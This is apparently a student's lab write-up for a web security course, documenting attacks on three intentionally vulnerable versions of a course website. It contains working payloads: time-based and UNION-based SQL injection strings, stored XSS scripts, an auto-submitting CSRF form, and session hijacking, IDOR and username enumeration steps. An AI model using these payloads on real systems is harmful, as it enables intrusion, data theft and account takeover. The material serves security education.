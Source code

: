 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

**Vulnerability #1: Session Hijacking/Fixation**

Description:

  **Session Hijacking**
  1. Open up the log in page and the hacktools/change_session_id.php script on two seperate browsers
  2. Log in on one browser (victim - Safari on right) then open a new tab and use the hacktools/change_session_id.php script to get the session ID.
  3. Copy the session ID.
  4. On the other browser (attacker - Chrome on left), go to the hacktools/change_session_id.php script and change the session ID to match the one that was just copied.
  5. Now, go to the log in page on the attacker browser and you will be logged in to the same account as the one on the victim browser without having to enter a username or password since it has the same session ID as the victim.
  
<img src="Blue-Session_Hijacking.gif">

  **Session Fixation**
  1. Open up the log in page and the hacktools/change_session_id.php script on two seperate browsers
  2. Open the hacktools/change_session_id.php script on the attacker browser (Chrome - left) and get a session ID. Copy the session ID.
  3. On the other browser (victim - Safari on right), go to the hacktools/change_session_id.php script and change the session ID to match the one that was just copied.
  4. Log in on the victim browser.
  5. The attacker can now log in on the attacker browser.
<img src="Blue-Session_Fixation.gif">

**Vulnerability #2: SQL Injection (SQLi)**

Description:
  1. Log into the site and navigate to the Salespeople page
  2. Select 'Show' for any salesperson
  3. Add ```' OR SLEEP(3)=0--'``` to the end of the url. The sleep() function allows you to specify the number of seconds it takes for the page to load (3 and 7 seconds are shown in the GIF)
<img src="Blue-SQLi.gif">

## Green

**Vulnerability #1: Cross-Site Scripting (XSS)**

Description:
  1. Go to the contact tab and fill out the form with a fake name and email and the following inside the feedback section: ```<script>alert('[Name] found the XSS');</script>```
  2. Then log in and proceed to the 'Feedback' section
  3. Here the alert will pop up, indicating that the attack was successful.

<img src="Green-XSS.gif">

**Vulnerability #2: Username Enumeration**

Description:
  1. When attempting to log in on the Green site with a existing username, the error message is presented in bold. Also, the html class is labeled **"failure"**.
  2. When attempting to log in on the Green site with a nonexisting username, the error message is presented in plaintext. The html class for this error is labeled **"failed"**.
  3. The other two sites do not have these discrepancies.
  4. The mistake that the developer of the Green site made was using different classes for a username that does exist and a username that does not exist. He/she also forgot to bold the error message's text for a nonexisting username. This vulnerability allows an attacker to determine whether or not a username exists.
<img src="Green-User_Enumeration.gif">


## Red

**Vulnerability #1: Insecure Direct Object Reference (IDOR)**

Description:
  1. Navigate to the 'Find a Salesperson' tab
  2. Select any salesperson
  3. In the URL, go to the end and change the ID to 10 or 11
  4. On the Red site, this will display informatoin that should only be accessible to a logged in user. If this attack is performed on the other two sites, they redirect to the main page.

<img src="Red-IDOR.gif">

**Vulnerability #2: Cross-Site Request Forgery (CSRF)**

Description:
  1. Go to the 'Salespeople' tab and view one of the salespeople. *There are no tokens used to identify an admin user on the Red site.* 
  2. Use the following HTML page with a hidden form to modify a salesperson's data
  ```
<!DOCTYPE html>
<html>
  <head>
	 <title>CSRF Page</title>
  </head>
  <body onload="document.CSRF.submit()">
    <form action=https://35.184.88.145/red/public/staff/salespeople/edit.php?id=12 method="POST" name="CSRF">
        <input type="text"   name="first_name"  value="Hacker"/>
        <input type="text"   name="last_name"   value="Guyyy"/>
        <input type="text"   name="phone"       value="123-456-7890"/>
        <input type="text"   name="email"       value="hackerguyyy@gmail.com"/>
    </form>
    <iframe name="hidden_iframe" style="display:none;"></iframe>
  </body>
</html>

<img src="Red-CSRF.gif">
```
3. When the page is opened in the browser, it changes the specified user on the actual Red site. 
4. Return to the Red site and refresh the page. The salesperson's data should be changed.


## Optional
**Bonus Objective 1:** Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.

Description:
  1. Navigate to the 'Salespeople' section
  2. Select one of the names
  3. In the URL, paste the following SQL script: 
  ```
  ' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- -
  ```
  4. The page will display all of the database's table and column names. 
  
<img src="Bonus-SQLi.gif">

**Bonus Objective 2:** Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to direct the user to a new URL.

Description:
  1. Navigate to the 'Contact' tab
  2. Fill in a fkae name and email
  3. In the feedback section, paste the following script: ```<script>document.location="https://www.google.com"</script>``` 
  4. Click Submit 
  5. Log in and click the 'Feedback' section <br>
  *Note: Series of alerts are from other students also hacking the site*
  6. The script will run and take the user to the specified link
  
<img src="Bonus-XSS.gif">

## Notes

**Describe any challenges encountered while doing the work**
It was difficult to figure out which attacks would work on each site. This was the most time consuming part of the assignment.  Nevertheless, I acknowledge that this is a major aspect of hacking and what makes the assignment far closer to real-world encounters. 
I also had the most difficulty completing the CSRF challenge. I discovered that ```<body onload="document.CSRF.submit()">``` and the name given to the form were different. This caused the page to load improperly and thus would not carry out a successful attack. Upon fixing this, the attack was successful.
